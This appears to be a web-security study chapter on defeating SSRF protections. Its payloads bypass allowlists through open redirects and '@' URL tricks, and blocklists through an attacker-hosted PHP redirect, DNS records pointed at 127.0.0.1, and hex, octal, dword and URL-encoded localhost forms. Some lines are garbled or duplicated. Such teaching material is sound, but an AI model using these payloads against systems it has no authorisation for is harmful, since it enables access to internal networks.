

Bypass common SSRF defenses
In this chapter we will se how circumventing defenses aimed at preventing malicious SSRF exploitation.
If we get an error like this:
Means that our SSRF is been blocked by a protection mechanism, possibly a URL allowlist or blocklist.
Bypass Allowlists
Allowlists are generally the hardest to bypass, because they are, by default, stricter than blocklists.
• exploit an
Open Redirect of another url to request a page in our SSRF
example: even if the site allows only profile pictures uploaded from one of its subdomains, you can induce an SSRF through an open redirect.
POST /upload_profile_from_url
Host: public.example.com
user_id=1234&url=https://pics.example.com/123?redirect=127.0.0.1
• exploit
poorly designed regular expressions (regexes) allowed lists.
A site can check regex expressions like .*example.com.* to match the subdomains and filepaths of example.com as well.
example: Since in the example below pics.example.com is seen as the username portion of the URL, then it will redirect to 127.0.0.1
POST /upload_profile_from_url
Host: public.example.com
user_id=1234&url=https://pics.example.com@127.0.0.1
Since pics.example.com is seen as the directory portion of the URL, then it will redirect to 127.0.0.1
POST /upload_profile_from_url
Host: public.example.com
user_id=1234&url=https://pics.example.com@127.0.0.1
Bypass Blocklists
•
Redirect to the Attacker site:
1) Make the server request a URL that you control and that redirects to the blocklisted address
https://public.example.com/proxy?url=https://attacker.com/ssrf
2) On your server at https://attacker.com/ssrf you can host a file with the following content:
<?php header("location: http://127.0.0.1"); ?> that will redirect the target server to http://127.0.0.1
This attack will bypass blocklists because the URL submitted to the application does not itself contain any blocklisted addresses.
•
Tricking the Server with DNS ◇ DNS A records point a hostname to an IPv4 address
◇ DNS AAAA records translate hostnames to an IPv6 address
How Trick Target WebServer
1) You can check the current A/AAAA records of your domain by running these commands:
nslookup DOMAIN -type=A
nslookup DOMAIN -type=AAAA
2) Modify the A/AAAA record of a domain you control and make it point to the internal addresses on the victim’s network.
Go to the web-hosting service’s settings page. Usually you can configure your DNS records by going to your account and choosing:
Domain List → Manage Domain → Advanced DNS → Add New Record
Create a custom mapping of hostname to IP address and make your domain resolve to 127.0.0.1
3) Ask the target server to send a request to your server
https://public.example.com/proxy?url=https://attacker.com
• Encoding URL/Addresses (exercise:
SSRF with blacklist-based input filters)
Encodings for 127.0.0.1
◇ Hex format → 0x7f.0x0.0x0.0x1
https://public.example.com/proxy?url=https://0x7f.0x0.0x0.0x1
◇ Octal format → 0177.0.0.01
https://public.example.com/proxy?url=https://0177.0.0.01
◇ Dword format → 2130706433
127×256
3 + 0 ×256
2 + 0 × 256
1 + 1 × 256
0 https://public.example.com/proxy?url=https://2130706433
◇ Double Word format
◇ localhost URL encoded → %6c%6f%63%61%6c%68%6f%73%74
https://public.example.com/proxy?url=https://%6c%6f%63%61%6c%68%6f%73%74
◇ Use a combination of the above:
example: 0177.0.0.0x1
▪ the first section uses octal encoding
▪ the next two use decimal encoding
▪ the last section uses hex encoding
Bibliography:
•
https://portswigger.net/web-security/ssrf•
Bug Bounty Bootcamp: The Guide to Finding and Reporting Web